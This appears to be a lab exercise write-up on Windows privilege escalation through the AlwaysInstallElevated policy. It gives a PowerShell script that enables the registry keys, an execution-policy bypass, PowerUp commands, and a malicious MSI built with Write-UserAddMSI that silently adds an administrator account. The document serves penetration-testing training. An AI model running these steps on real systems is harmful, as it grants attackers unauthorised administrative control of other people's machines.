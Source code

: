 # Write A PS Script That Enables The AlwaysInstallElevated Registry Key
The AlwaysInstallElevated vulnerability in Microsoft Windows lets unprivileged attackers install programs with elevated privileges without user consent, potentially enabling the installation of spyware and malware.

Powerup.ps1 is a PowerShell script that escalates privileges by adding users, changing passwords, and modifying permissions, allowing attackers to access sensitive data or systems.

## References
- [AlwaysInstallElevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) by Microsoft
- [PowerSploit / PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) by PowerShellMafia on GitHub
- [Detecting AlwaysInstallElevated Policy Abuse - Windows PrivEsc](https://bherunda.medium.com/windows-privesc-detecting-alwaysinstallelevated-policy-abuse-f3ffa7a734bd) by Ankith Bharadwaj on Medium
- [PowerUp Cheatsheet](https://blog.certcube.com/powerup-cheatsheet/) by MR X on CertCube Labs
- [Get-RegistryAlwaysInstallElevated](https://powersploit.readthedocs.io/en/latest/Privesc/Get-RegistryAlwaysInstallElevated/) by PowerSploit
- [AlwaysInstallElevated - Windows Privilege Escalation](https://juggernaut-sec.com/alwaysinstallelevated/#Exploiting_AlwaysInstallElevated_with_PowerUp_GUI) by Juggernaut Pentesting Academy
- [Windows Powershell policy execution bypass](https://stackoverflow.com/questions/67270197/windows-powershell-policy-execution-bypass) on stackoverflow
- [Write-UserAddMSI](https://powersploit.readthedocs.io/en/latest/Privesc/Write-UserAddMSI/) by PowerSploit

## Tasks
- Create a PowerShell script that modifies the Windows registry to enable the AlwaysInstallElevated registry key
- Execute the PowerShell script to enable the AlwaysInstallElevated registry key on the target system
- Exploit the AlwaysInstallElevated vulnerability using PowerUp.ps1

## Solutions With Scripts
1. The `AlwaysInstallElevated` registry key exists in two locations: `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer` and `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
2. If the registry key does not exist or if the Installer key containing the registry does not exist, head to the closest existing key and manually create a new `Installer` key and the `AlwaysInstallElevated` registry key
3. We can query for the value of the AlwaysInstallElevated subkey for each of these registry keys with the following commands
   ```
   reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   ```
   If the value is set to 0x1, it is enabled on the host
4. Save and run the following PowerShell script with administrator privileges to enable `AlwaysInstallElevated`
   ```
   # PowerShell script to enable the AlwaysInstallElevated registry key

   # Enable AlwaysInstallElevated for Local Machine
   $regPathLM = "HKLM:SOFTWARE\Policies\Microsoft\Windows\Installer"
   Set-ItemProperty -Path $regPathLM -Name "AlwaysInstallElevated" -Value 1 -Force

   # Enable AlwaysInstallElevated for Current User
   $regPathCU = "HKCU:SOFTWARE\Policies\Microsoft\Windows\Installer"
   Set-ItemProperty -Path $regPathCU -Name "AlwaysInstallElevated" -Value 1 -Force

   Write-Host "AlwaysInstallElevated has been enabled for both HKLM and HKCU."
   ```
5. To execute the script, open PowerShell with administrator privileges and navigate to the folder where the script is stored. Run the following command to bypass execution policy restrictions
   ```
   Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
   ```
   Then run the script using `./Enable-AlwaysInstallElevated.ps1`
6. To identify the vulnerability with PowerUp.ps1, download PowerUp.ps1 from the PowerSploit repository. In the same PowerShell session, run the following command to import and execute PowerUp.ps1
   ```
   Import-Module .\PowerUp.ps1
   Get-RegistryAlwaysInstallElevated
   ```
   ![image](https://github.com/user-attachments/assets/e8a8450e-323a-450b-96dc-02376af54343)
7. Then to exploit the vulnerability, generate a malicious MSI with the `Write-UserAddMSI` command that adds a user with administrator privileges to the system
   ```
   Write-UserAddMSI -UserName "maluser" -Password "pwd123" -Path "C:\Temp\exploit.msi"
   ```
8. Run the MSI file by executing it on the target machine
   ```
   msiexec /quiet /i C:\Temp\exploit.msi
   ```
9. To confirm the new user has been created and added to the Administrators group, run the command
   ```
   Get-LocalUser | Where-Object { $_.Name -eq "maluser" }
   ```
10. To check if the user has administrative rights, run
    ```
    net localgroup administrators
    ```
11. (Optional) After completion of the tests, to disable AlwaysInstallElevated, set the registry keys back to 0
   ```
   # Disable AlwaysInstallElevated for Local Machine
   $regPathLM = "HKLM:SOFTWARE\Policies\Microsoft\Windows\Installer"
   Set-ItemProperty -Path $regPathLM -Name "AlwaysInstallElevated" -Value 0 -Force
   
   # Disable AlwaysInstallElevated for Current User
   $regPathCU = "HKCU:SOFTWARE\Policies\Microsoft\Windows\Installer"
   Set-ItemProperty -Path $regPathCU -Name "AlwaysInstallElevated" -Value 0 -Force
   ```



